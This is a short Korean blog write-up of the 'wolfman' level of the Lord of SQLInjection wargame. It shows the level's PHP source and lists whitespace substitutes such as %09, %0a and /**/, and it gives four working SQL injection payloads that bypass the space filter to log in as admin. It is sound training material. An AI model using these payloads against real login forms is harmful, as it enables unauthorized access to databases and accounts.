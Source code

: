 ```yaml
---
layout: post
title: ! "[LOS] wolfman"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - wolfman
  - write-up
---
```

![](/assets/posts/los/wolfman.png)

`query: select id from prob_wolfman where id='guest' and pw=''`

```php
<?php 

  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```
공백 필터링이 있는 문제다.
저번처럼 id는 guest로 고정되어있고 id는 admin이 되어야 문제가 풀린다.

공백이 필터링 되어있을 때 대신할 수 있는 것은
```
1. TAB :  %09
2. \n : %0a
3. \r : %0d
4. 주석 : /**/
5. 괄호 : ()
6. +
```

등등이 있는데
이 문제에선 괄호가 안먹힌다.
그래서 TAB,\n,\r,주석의 경우를 다 테스트 해봤다.

```
TAB : ?pw=%27%09or%09id=%27admin
\n : ?pw=%27%0aor%0aid=%27admin
\r : ?pw=%27%0dor%0did=%27admin
주석 : ?pw=%27/**/or/**/id=%27admin
```

다양한 시도를 해서 푼 화면이다.
![](/assets/posts/los/wolfman_clear1.png)
![](/assets/posts/los/wolfman_clear2.png)


울프맨 클리어!
